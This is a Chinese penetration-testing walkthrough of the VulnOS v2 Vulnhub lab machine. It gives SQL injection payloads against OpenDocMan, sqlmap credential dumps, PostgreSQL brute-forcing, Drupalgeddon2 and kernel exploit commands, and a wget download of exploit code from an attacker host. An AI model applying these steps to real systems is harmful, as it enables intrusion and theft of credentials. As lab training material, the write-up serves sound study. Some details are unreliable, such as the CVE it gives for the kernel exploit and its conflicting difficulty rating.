

# Vulnhub靶机渗透总结之VulnOSV2 - 先知社区

Vulnhub靶机渗透总结之VulnOSV2

- - -

# 0x01 基本信息：

VulnOSV2，Vuluhub中等难度靶机。信息收集和分析能力的试炼，可以先盲打，看能否按图索骥。中间还是涉及模糊测试、框架漏洞利用，常规打法，但也需要扎实的基本功。提权可尝试搜集到root密码，也可使用内核提权。

| 名称  | 说明  |
| --- | --- |
| 靶机下载链接 | [https://www.vulnhub.com/entry/vulnos-2,147/](https://www.vulnhub.com/entry/vulnos-2,147/) |
| 作者  | [c4b3rw0lf](https://www.vulnhub.com/author/c4b3rw0lf,66/) |
| 发布日期 | 17 May 2016 |
| 难度  | easy |
| 靶机  | ip：192.168.50.10 |
| 攻击机（kali） | ip：192.168.50.128 |

# 0x02 信息收集

## 主机发现、端口扫描、服务枚举、脚本漏扫（nmap）

```plain
nmap 192.168.50.0/24 -sn --min-rate 1000
nmap 192.168.50.10 -sT -p- --min-rate 1000 -oA nmap_result/port_scan
nmap 192.168.50.10 -sU --top-ports 10 -oA nmap_resule/portudp_scan
nmap 192.168.50.10 -p $port -sT -sV -O -sC -oA nmap_result/server_info
nmap 192.168.50.10 -p $port --script=vuln -oA nmap_result/vuln_info

port=$(grep open nmap_result/port_scan.nmap|grep open|awk -F '/' '{print $1}'|paste -sd ',')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010412-1f98c88c-a5a3-1.png)

> 开放端口 tcp22，80  
> 可能存在sql注入、csrf、xss
> 
> 22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu  
> 80/tcp open http Apache httpd 2.4.7 ((Ubuntu))  
> 6667/tcp open irc ngircd

## 目录扫描（dirsearch、gobuster）指纹识别（whatweb）

`whatweb`进行网站指纹识别网站探测是否由cms搭建，但未探测到有价值信息

```plain
dirsearch -u "http://192.168.50.10" -o dirsearch_info
gobuster dir -u http://192.168.50.10/jabc -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
whatweb "http://192.168.50.10/jabc"
```

> /jabc/includes/ 存放了许多配置文件的源码  
> /jabc/modules/ 存放了框架模块源码

# 0x03 web渗透（PORT 80 http）

## 源码提示信息

通过首页的 website，跳转到`/jabc/`，只有Documentation模块内容是空白的，查看网页源码，发现提示

## CMS 版本信息

访问 `/jabc/jabcd0cs/`，并以 `guest:guest` 登录。留意到站点底部信息显示是以`OpenDocMan`搭建的文档管理系统，版本号1.2.7

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010425-2744dcba-a5a3-1.png)

## 信息整理

JABS模块收集到三个标题信息：Aramaki、Kusanagi、Togusa  
Documentation模块发现注释：/jabc/jabcd0cs/，guest:guest

> CMS框架及版本：OpenDocMan 1.2.7

# 0x04 CMS框架漏洞利用（sqli）

## OpenDocMan （CVE-2014-1945）

OpenDocMan 1.2.7 - Multiple Vulnerabilities 对应32075.txt

```plain
searchsploit OpenDocMan 1.2.7

//payload
http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010436-2e499c30-a5a3-1.png)

<2> 住的注意的是，后端做了过滤单引号，可以使用十六进制编码表示表名

```plain
<1> 库名
?q=1&add_value=odm_user%20UNION%20SELECT%201,database(),3,4,5,6,7,8,9

<2> 表名
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7,8,9 from information_schema.tables where table_schema=database()

<3> 列名（后端做了过滤，可以用16进制编码表示表名）
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7,8,9 from information_schema.columns where table_name=0x6f646d5f75736572 and table_schema=database()

<4> 数据
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(concat(username,0x5e,password)),3,4,5,6,7,8,9 from odm_user
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010618-6ab1d304-a5a3-1.png)

<3> 使用sqlmap跑一遍，方便拿到更多信息。因为过滤了单引号，可以尝试调高探测等级。

```plain
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 -D jabcd0cs -T odm_user -C username,password --dump
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 --current-user
sqlmap -u "http://192.168.50.10/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user"  --level=3 --risk=3 --is-dba
```

> root@localhost，DBA权限  
> 从jabcd0cs.odm\_user 获取到以下用户凭证信息（需md5解密）：webmin:webmin1980 guest:guest  
> 从mysql.user 获取到以下用户凭证信息：root:toor phpmyadmin:toor drupal7:toor

# 立足点1：shell as user1（ssh）

既然从数据库拿到了登录凭据，则尝试进行SSH，使用 `webmin:webmin1980` 进行ssh登录成功。拿到初始访问权限.

```plain
ssh webmin@192.168.50.10
```

# 0x05 提权信息收集、漏洞探针

`LinEnum.sh` 脚本自动执行提权过程中可能用到的几十条命令并整理输出，有关键的发现会以黄色标题突出显示。使用`linux-exploit-suggester.sh`脚本进行漏洞探针

```plain
scp LinEnum.sh webmin@192.168.50.10:/tmp

./LinEnum.sh -r linenum_info -e /tmp/ -t
./linuxprivchecker.py -w -o linuxprivchecker.log
./linux-exploit-suggester.sh -g

//文件/home/webmin/post.tar.gz
tar -zxvf post.tar.gz
file post.tar.gz
binwalk post.tar.gz
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010448-351b838e-a5a3-1.png)

## 提权信息整理

> /home/webmin/post.tar.gz（gzip文件，解压后是hydra，似乎是想让我们去爆破）  
> 用户 uid=1000(vulnosadmin)，但不知道密码  
> bash环境的有三个用户 root vulnosadmin postgres  
> 网站目录 /var/www  
> 开端口3306 Mysql，端口5432 PgSQL(9.3.11)  
> mysqld是mysql用户运行，不是root权限，不可以udf提权。  
> 进程存在postgres，但不是root权限运行  
> Mysql登陆root/toor  
> suid都是常规系统目录  
> 计划任务没有值得注意的

# 0x06 PostgreSQL 深入探索

## 端口转发：ssh正向代理

使用`netstat -anp`时，留意到靶机的5432端口只在靶机本地开启`127.0.0.1:5432`，因为可以ssh登录该靶机，所以尝试通过SSH方式将靶机5432端口流量转发到kali指定端口5557，从而实现通过本地主机端口访问远程主机端口的功能。

```plain
ssh -L 5557:localhost:5432 webmin@192.168.50.10
```

## PostgreSQL 密码爆破（msf）

使用msf的postgres\_login模块爆破用户名密码，

```plain
msfconsole -q -x 'use scanner/postgres/postgres_login;set rhost 127.0.0.1;set rport 5557;run'
```

此外也可以利用靶机上存在的hydra进行爆破

```plain
//kali
scp /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt webmin@192.168.50.10:~
scp /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt webmin@192.168.50.10:~

//靶机，靶机的hydra需要编译
tar -xzf post.tar.gz
./configure
make
make install (会提示权限不足，可忽略)

./post/hydra -L postgres_default_user.txt -P postgres_default_pass.txt postgres://127.0.0.1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010458-3b5368d4-a5a3-1.png)

> \[+\] 127.0.0.1:5557 - Login Successful: postgres:postgres@template1

## PostgreSQL 信息枚举

直接在靶机切换postgres用户提示授权失败。既然端口已经做了映射，可以在kali利用pg\_dumpall用来提取我们可以访问的所有数据库

```plain
PGPASSWORD="postgres" pg_dumpall -U postgres -h 127.0.0.1 -p 5557
```

或者使用webmin:webmin1980登录靶机手工查询,[相关命令参考](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)

```plain
psql -h localhost -U postgres
\list # List databases
\c <database> # use the database
\d # List tables
SELECT * FROM  users;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010506-40248a32-a5a3-1.png)

> 拿到了一个用户凭据 vulnosadmin:c4nuh4ckm3tw1c3

# 立足点2：shell as user2（ssh）

使用 vulnosadmin:c4nuh4ckm3tw1c3 成功ssh登录，没sudo权限，但在家目录发现文件 r00t.blend

```plain
ssh vulnosadmin@192.168.50.10

//kali
scp vulnosadmin@192.168.50.10:~/r00t.blend .
file r00t.blend
binwalk r00t.blend
cat r00t.blend
strings r00t.blend
```

文件类型：Blender3D，可以使用Blender软件进行查看，调整角度后发现一串文字

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010515-4530a2f4-a5a3-1.png)

> 从r00t.blend 提取到一段文字信息：ab12fg//drg，推测可能是某个用户的登录凭据

# 立足点3：shell as root （ssh）

使用 root:ab12fg//drg ,成功ssh登录，拿到root权限并获取flag，至此靶机渗透结束。

# 0x07 其他尝试

## （1）AWVS扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010523-49ca91ee-a5a3-1.png)

> 数据库配置文件泄露 [http://192.168.50.10/jabc/includes/database/database.inc](http://192.168.50.10/jabc/includes/database/database.inc)  
> Drupal RCE (SA-CORE-2018-002)[http://192.168.50.10/jabc/](http://192.168.50.10/jabc/)

## （2）网站后台 文件上传（白名单机制）

[http://192.168.50.10/jabcd0cs](http://192.168.50.10/jabcd0cs)  
webmin账户登录，具管理员权限，可以在admin模块新增允许上传文件类型 `text/x-php`。在设置页面可以找到文件上传路径`/uploads`。  
此时已经可以上传php文件，但发现所上传的文件后缀会转换为dat格式。如果想利用shell文件，还需要找到一个本地文件包含漏洞，但是没找到。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010532-4f45850c-a5a3-1.png)

## （3）Drupal RCE （CVE-2018-7600）

1、在渗透过程中，细心就可以留意到响应包中存在字段 `Drupal 7`，则可以尝试在公开漏洞库进行查找，以可以直接利用的漏洞为切入点，进行筛选。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010630-71e2b986-a5a3-1.png)

2、这里尝试了 `Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution`[相关利用参考](https://research.checkpoint.com/2018/uncovering-drupalgeddon-2/)

```plain
searchsploit Drupal -m 44449
#报错则 sudo gem install highline 
./44449.rb http://192.168.50.10/jabc/
```

3、或者使用msf的drupal\_drupalgeddon2模块

```plain
msfconsole -q -x 'use exploit/unix/webapp/drupal_drupalgeddon2;set rhosts 192.168.50.10;set targeturi /jabc;set payload php/bind_perl;run'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010541-54bc2338-a5a3-1.png)

> 拿到www-data权限，可以查看进程与连接 postgresql

## （4）内核提权（CVE-2003-0127）

```plain
wget http://192.168.220.128:8081/37292.c

chmod +x 37292.c
gcc 37292.c -o test
chmod +x test
./test
```

> 拿到root权限

## （5）注入点探索

```plain
文件/var/www/html/jabcd0cs/ajax_udf.php
存在注入的地方 $query = 'SELECT * FROM ' . $_GET["add_value"];
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010549-598ee1d4-a5a3-1.png)

# 总结

[](https://xzfile.aliyuncs.com/media/upload/picture/20231229010715-8d06f8da-a5a3-1.png)

1.  在web主站的注释中，发现了网站是以 `OpenDocMan 1.2.7` 搭建的一套信息管理系统，在公开漏洞库搜索该CMS得知存在`sqli`，通过sql注入，拿到了一个登录凭据 `webmin:webmin1980`，获得初始立足点。
    
2.  登录`webmin`用户，发现靶机5432端口（`postgerSQL`）只在本地开放，使用ssh正向代理将靶机5432端口流量转发到kali，利用 MSF `postgres_login`模块进行爆破，成功拿到数据库登录凭据。经过对数据库内容进行探索后拿到一组新的登陆凭据 `vulnosadmin:c4nuh4ckm3tw1c3`，再次获得立足点
    
3.  登录`vulnosadmin`用户，家目录中发现文件`r00t.blende`，通过D建模成功从该文件中获取到root密码。
    

# 技巧：

1、源码的利用。许多网站都是直接从网上下载源码，简单配置就开始使用了，或许有默认信息可以利用。经验管用但用处不大 重要的是思路。  
2、目录扫描时，字典只要足够大用任何一个都可以，之所以选择字典更多是针对特定的扫描场景，针对性进行扫描会快一点。都是一个概率问题尤其是在实际攻防中。  
3、拿到几个人名这个时候不知道后边的渗透测试是否会用到，但是要有敏感度，有可能后边在爆破的时候，或者对敏感信息利用的时候，需要做选择，那么基于他们的角色很可能就是一个线索。  
4、通过你了解的sql和php开发习惯，探测他的一些搜索的交互行为，可能会出发报错或更进一步的行为，综合这些信息进行判断。  
5、当获取初始立足点后，当发现某程序端口仅在本地监听未对外开放时，特定场景下他可能就是一个入口。要权衡考虑尝试的成本，也要明白错过的损失，或许这就是正确的出路。  
6、当响应式的页面都是纯 html 时，可以尝试查看源码，看是否会会有新的发现。  
7、总而言之，这台靶机是标准攻击链的呈现，老手验宝刀新手摸思路，一些红队的技术手段与小技巧在文章中均有呈现，希望能帮助你提升渗透技能。  
8、这篇博客更多的意义是记录我个人在学习过程中的知识。由于笔者水平有限，本文的写作多借鉴于以下 文章，但也不乏创新思路点。对于靶机渗透过程的技巧，勉强达到靶机要求的合格水平，各位若有其他新颖独特的思路，还望不吝赐教，多多交流。  
参考文章 [Hack the VulnOS 2.0](https://www.hackingarticles.in/hack-the-vulnos-2-0-vm-ctf-challenge/)
